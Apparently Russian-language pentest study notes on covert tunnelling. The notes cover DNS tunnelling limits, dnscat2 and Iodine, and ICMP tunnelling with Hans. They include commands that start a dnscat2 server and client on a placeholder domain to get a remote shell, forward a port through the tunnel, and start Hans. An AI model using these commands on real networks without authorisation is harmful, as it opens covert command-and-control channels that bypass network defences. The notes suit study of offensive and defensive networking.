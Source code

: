 **Особые условия DNS-туннелирования**

- Максимум 253 символа в домене 
- Максимум 63 символа на поддомен
- Нечувствительность к регистру (поэтому мы используем кодировку Base32)
- TXT-запрос для получения максимального количества символов в ответе

**Особенности использования DNS-туннеля: рекурсивные запросы**  
  
Такие запросы позволяют не использовать прямое соединение с сервером управления или прокси, чтобы получать доступ. Это поведение может быть очень полезно в изолированном периметре или сети с ограничениями к соединениям между узлами.

![[Pasted image 20240409145148.png]]

**Утилиты для DNS-туннелирования**

- _DNSCAT2_ — инструмент, предназначенный для создания зашифрованного командно-контрольного канала (C&C) через протокол DNS, который является эффективным туннелем практически из любой сети
- _Iodine_ — программное обеспечение, позволяющее туннелировать данные IPv4 через сервер DNS сервер: это может быть полезно в различных ситуациях, когда доступ в интернет исключен, но DNS-запросы разрешены

> **_Пример работы с DNSCAT2:_**
> 
> Запуск сервера:  
> `./dnscat2.rb our-domain-server.org`  
> Запуск клиента:  
> `./dnscat2 our-domain-server.org`  
>   
> При подключении клиента к серверу вы сможете управлять с сервера терминальной оболочкой, исполняющей команды на агенте.

> **_Пример проброса туннелирования трафика через DNS-туннель:_**  
>   
> `listen 4444 10.0.1.3:80` — поднимет на стороне сервера порт 4444, который будет отправлять трафик на узел 10.0.1.3 на порт 80 на стороне агента

### **ICMP-туннелирование**

**ICMP-туннель** — скрытый канал для передачи данных, организованный между двумя узлами, использующий IP-пакеты с типом  
протокола ICMP.

> **_Пример инструмента:_**  
>   
> _Hans_ — делает возможным туннелирование IPv4 через эхо-пакеты ICMP, поэтому его можно назвать туннелем для пинга. Это  
> может быть полезно в ситуации, когда доступ в Интернет перекрыт, но пинги разрешены.  
>   
> _Для запуска в качестве сервера (от имени root):_  
> `# ./hans -s 10.1.2.0 -p password` — это создаст новое tun-устройство и назначит ему IP 10.1.2.1  
>   
> _Для запуска в качестве клиента (от имени root):_  
> `# ./hans -c server_addess -p пароль` — это позволит подключиться к серверу по адресу "server_addess", создать новое tun-устройство и назначить ему IP из сети 10.1.2.0/24  
>   
> Теперь вы можете запустить прокси на сервере или позволить ему действовать как маршрутизатор и использовать NAT, чтобы  
> разрешить клиентам доступ в Интернет.
